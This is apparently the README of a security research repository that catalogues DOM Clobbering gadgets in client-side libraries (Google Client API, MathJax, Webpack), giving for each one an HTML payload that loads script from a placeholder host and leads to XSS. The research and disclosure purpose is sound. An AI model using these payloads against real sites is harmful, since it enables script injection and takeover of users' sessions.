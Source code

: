 # DOM Clobbering Collection

In this repo, we collect a list of client-side libraries that are either vulnerable to HTML injection or contain DOM Clobbering gadgets that lead to severe consequences, e.g., XSS.

## HTML Injection

## DOM Clobbering Gadgets

| Library | Version | Payloads | Impact | Found By |
|:-------:|:-------:|----------|:------:|:--------:|
| [Google Client API](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/google-client-api.md) | 5BIk7BglYEE | ```<iframe name="scripts" src=”https://api.google.com/js/api.js”>alert("GG!")</iframe><iframe name="scripts" src=”https://api.google.com/js/api.js”>alert("GG!")</iframe>``` | XSS | TheHulk |
| [MathJax](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/mathjax.md) | 2.7.x | ```<a id="MathJax"></a> <a id="MathJax" name="root" href="https://xxx.xxx.xxx"></a>``` | XSS | TheHulk |
| [MathJax](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/mathjax3.md) | 3.2.2 | ```<img name="currentScript" src="https://xxx.xxxx.xxx"></img> $$\require{tex}$$``` | XSS | TheHulk |
| [Webpack](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/webpack.md) | 5.x.x | ```<img name="currentScript" src="https://xxx.xxxx.xxx"></img>``` | XSS | TheHulk |
